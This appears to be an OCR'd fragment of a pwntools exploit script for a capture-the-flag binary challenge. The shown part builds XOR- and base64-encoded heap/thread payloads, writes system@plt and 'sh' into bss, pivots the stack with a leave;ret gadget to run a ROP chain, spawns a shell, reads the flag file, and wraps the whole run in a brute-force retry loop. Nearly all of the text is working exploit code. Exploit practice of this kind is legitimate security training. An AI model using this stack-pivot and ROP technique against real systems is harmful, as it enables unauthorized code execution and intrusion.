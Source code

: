 ```py
    payload += xor(b"A"*0x10, key)*251
    payload += flat([
        0, 0,
        0, 0,
        0, 0,

        # rewrite buffer pointer of joiner thread (at buffer+0x10*0x204) with bss (for future stack pivot)
        msg(0x204, p64(bss) + p64(0)),

        0, 0,
    ])
    payload += xor(b"A"*0x10, key)*251
    payload += flat([
        1, 0,
        0, 0,
        0, 0,

        msg(1, p64(exe.plt.system) + b"sh"), # write at bss+0x10*1

        0, 0,
    ])
    slaprefix(b64.b64encode(payload))



    payload = b""
    payload += xor(b"A"*0x10, key)*251
    payload += flat([
        1, 0,
        0, 0,
        0, 0,

        # buffer+0x10*0x106 = saved rbp & rip
        msg(0x106, p64(bss-8) + p64(leave_ret)), # rbp & rip

        0, 0,
    ])
    slaprefix(b64.b64encode(payload))

    slaprefix(b"aaaa") # trigger another encryption -> will force last joiner to exit -> execute our ropchain
    sl(b"cat fla*")

    io.interactive()
    exit()

if not args.BF:
    launch()
    exploit()
    exit()
else:
    tries_prog = log.progress("Tries")
    while True:
        tries += 1
        tries_prog.status(str(tries))

        launch()
        try:
            exploit()
        except EOFError:
            pass

```